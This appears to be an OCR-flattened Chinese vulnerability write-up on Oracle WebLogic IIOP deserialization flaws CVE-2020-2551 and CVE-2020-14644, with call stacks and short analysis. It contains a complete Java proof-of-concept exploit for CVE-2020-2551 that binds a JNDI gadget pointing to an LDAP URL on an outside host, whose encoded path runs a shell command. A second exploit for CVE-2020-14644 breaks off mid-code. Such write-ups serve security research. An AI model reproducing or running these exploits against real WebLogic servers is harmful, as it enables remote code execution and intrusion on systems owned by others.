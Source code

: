 ValueHandlerImpl (weblogic.corba.utils)read_value:2128, IIOPInputStream (weblogic.iiop)read_abstract_interface:2279, IIOPInputStream (weblogic.iiop)readObject:2785, IIOPInputStream (weblogic.iiop)readFields:460, ObjectStreamClass (weblogic.utils.io)readValueData:294, ValueHandlerImpl (weblogic.corba.utils)readValue:93, ValueHandlerImpl (weblogic.corba.utils)read_value:2128, IIOPInputStream (weblogic.iiop)read_value:1936, IIOPInputStream (weblogic.iiop)read_value_internal:220, AnyImpl (weblogic.corba.idl)read_value:115, AnyImpl (weblogic.corba.idl)read_any:1648, IIOPInputStream (weblogic.iiop)read_any:1641, IIOPInputStream (weblogic.iiop)_invoke:58, _NamingContextAnyImplBase (weblogic.corba.cos.naming)invoke:249, CorbaServerRef (weblogic.corba.idl)invoke:230, ClusterableServerRef (weblogic.rmi.cluster)run:522, BasicServerRef$1 (weblogic.rmi.internal)doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)runAs:146, SecurityManager (weblogic.security.service)handleRequest:518, BasicServerRef (weblogic.rmi.internal)run:118, WLSExecuteRequest (weblogic.rmi.internal.wls)execute:256, ExecuteThread (weblogic.work)run:221, ExecuteThread (weblogic.work)POC：import com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager;import javax.naming.Context;import javax.naming.InitialContext;import java.lang.reflect.Field;import java.rmi.Remote;import java.util.Hashtable;import static ysoserial.payloads.util.Gadgets.createMap;import static ysoserial.payloads.util.Gadgets.createMemoitizedProxy;public class CVE_2020_2551 {    public static void main(String[] args) throws Exception {        String ip = "127.0.0.1";        String port = "7001";        String rmiurl = "ldap://192.168.0.103/cVLtcNoHML/Plain/Exec/eyJjbWQiOiJ0b3VjaCAvdG1wL3N1Y2Nlc3MxMjMifQ==";        String rhost = String.format("iiop://%s:%s", ip, port);        Hashtable<String, String> env = new Hashtable<String, String>();        // add wlsserver/server/lib/weblogic.jar to classpath,else will error.        env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");        env.put(Context.PROVIDER_URL, rhost);        Context context = new InitialContext(env);        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();        jtaTransactionManager.setUserTransactionName(rmiurl);        Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);        context.bind("test3", remote);        context.lookup("test3");    }}CVE-2020-14644Weblogic 10.3.6.0.0Weblogic 12.1.3.0.0Weblogic 12.2.1.3.0Weblogic 12.2.1.4.0漏洞分析主要问题出现在com.tangosol.internal.util.invoke.RemoteConstructor上：RemoteConstructor.readResolve -> RemoteConstructor.newInstance -> RemotableSupport.realizeRemotableSupport.realize中存在两个方法调用：分别为重载后的defineClass方法：与实例化方法：defineClass的值来自于definitiongetName()的逻辑如下：public String getName() {    return this.getPackage() + "/" + this.getSimpleName();}public String getSimpleName() {    return this.getBaseName() + "$" + this.getVersion();}在defineClass时我们的classname需要与传入的字节码保持一致。常规的IIOP调用流程，通过反射调用到com.tangosol.internal.util.invoke.RemoteConstructor的readResolve方法：com.tangosol.internal.util.invoke.RemoteConstructor.readResolve()->newInstance()->realize()其中registerIfAbsent会根据Id检查是否有已经缓存过的ClassDefinition对象，若存在则不会重新进行defineClass操作：接下来就是上文中分析过的defineClass与createInstance流程：调用栈：realize:142, RemotableSupport (com.tangosol.internal.util.invoke)newInstance:122, RemoteConstructor (com.tangosol.internal.util.invoke)readResolve:233, RemoteConstructor (com.tangosol.internal.util.invoke)invokeVirtual_L_L:-1, 479734028 (java.lang.invoke.LambdaForm$DMH)reinvoke:-1, 1608812768 (java.lang.invoke.LambdaForm$BMH)invoke_MT:-1, 223025988 (java.lang.invoke.LambdaForm$MH)readResolve:202, ObjectStreamClass (weblogic.utils.io)readValue:88, ValueHandlerImpl (weblogic.iiop)read_value:1388, IIOPInputStream (weblogic.iiop)read_value:1247, IIOPInputStream (weblogic.iiop)read_value_internal:230, AnyImpl (weblogic.corba.idl)read_value:125, AnyImpl (weblogic.corba.idl)read_any:1000, IIOPInputStream (weblogic.iiop)read_any:992, IIOPInputStream (weblogic.iiop)_invoke:87, _NamingContextAnyImplBase (weblogic.corba.cos.naming)invoke:249, CorbaServerRef (weblogic.corba.idl)invoke:246, ClusterableServerRef (weblogic.rmi.cluster)run:534, BasicServerRef$2 (weblogic.rmi.internal)doAs:386, AuthenticatedSubject (weblogic.security.acl.internal)runAs:163, SecurityManager (weblogic.security.service)handleRequest:531, BasicServerRef (weblogic.rmi.internal)run:138, WLSExecuteRequest (weblogic.rmi.internal.wls)_runAs:352, ComponentInvocationContextManager (weblogic.invocation)runAs:337, ComponentInvocationContextManager (weblogic.invocation)doRunWorkUnderContext:57, LivePartitionUtility (weblogic.work)runWorkUnderContext:41, PartitionUtility (weblogic.work)runWorkUnderContext:655, SelfTuningWorkManagerImpl (weblogic.work)execute:420, ExecuteThread (weblogic.work)run:360, ExecuteThread (weblogic.work)POC如下：import com.tangosol.internal.util.invoke.ClassDefinition;import com.tangosol.internal.util.invoke.ClassIdentity;import com.tangosol.internal.util.invoke.RemoteConstructor;import javassist.CannotCompileException;import javassist.ClassPool;import javassist.CtClass;import javassist.NotFoundException;import weblogic.EvilObj;import javax.naming.Context;import javax.naming.InitialContext;import javax.naming.NamingException;import java.io.IOException;import java.util.Hashtable;public class CVE_2020_14644 {    public static void main(String[] args) throws IOException, CannotCompileException, NamingException, NotFoundException {        String ip = "127.0.0.1";        String port = "7001";        String rhost = String.format("iiop://%s:%s", ip, port);        Hashtable<String, String> env = new Hashtable<String, String>();        // add wlsserver/server/lib/weblogic.jar to classpath,else will error.